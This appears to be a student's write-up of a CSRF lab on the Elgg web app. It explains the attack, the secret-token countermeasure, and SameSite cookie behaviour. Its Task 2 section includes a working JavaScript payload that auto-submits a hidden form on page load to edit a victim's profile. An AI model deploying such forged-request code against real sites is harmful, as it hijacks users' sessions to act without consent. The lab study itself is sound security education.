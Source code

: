 # CSRF Attack Lab on Elgg WebApp

## Overview

A Cross-Site Request Forgery (CSRF) attack involves a victim user, a trusted site and a malicious site. The victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages.

## Task 2: CSRF Attack using POST Request

Modifiying the *editprofile.html* file with the following code will perform the CSRF attack:

```js
function forge_post()
{
    var fields;

    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Boby is my Hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    var p = document.createElement("form");

    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";
    document.body.appendChild(p);
    p.submit();
}

window.onload = function() { forge_post();}
```

1. Is it possibile to derive the *guid* of Alice by accessing her profile and inspecting the *html* of the web page.
    In this way we can notice that, for instance, the button for adding Alice as a friend contains her *guid* in the link.
2. I don't think it is possible without knowing in advance the *guid* and fill the javascript code with it in the attacker32.com website.

## Task 3: Enabling Elgg’s Countermeasure

By enabling the `validate` function we can see that the attack no longer works and leaves the message "Form is missing \__token or \__ts fields" on Alice profile.

CSRF tokens should be stored server-side within the user's session data. There are different ways of transmitting the CSRF tokens between client and server, all them have the aim of treating the tokens as secrets from the attackers. So the attacker doesn't know the tokens and they also must be unique and impossible to guess. The server application must not proceed unless it validates the tokens. In this way, only the legit user can send authentic requests.

## Task 4: Experimenting with the SameSite Cookie Method

It is possible to see that when we navigate accross *example32.com*, with all the three different requests we can see all the cookies. On the other hand, when we access *attacker32.com*, *coookie-normal* is always displayed, *cookie-lax* is displayed only for link and GET request and *cookie-strict* is never displayed.

If SameSite is set to `Strict`, the cookie will be sent in a first-party context only, that is, if the site for the cookie matches the site currently shown in the URL. Meanwhile, if SameSite is set to `Lax`, cookies are not sent on normal cross-site subrequests, but are sent when a user is navigating to the origin site, following a link. This is why *cookie-strict* is displayed only on *example32.com*, which consists on the first-party context. `Lax` is a good choice for cookies affecting the display of the site and `Strict` is useful for cookies related to actions the user is taking.

SameSite attribute allows to decide if a cookie should be restricted to the same site context. If set, this countermeasure can prevent CSRF attacks which rely on the fact that cookies are attached to any request to a given origin.

I would help Elgg by adding the SameSite attribute (set as `Strict`) to a single sessionID cookie or the tokens.
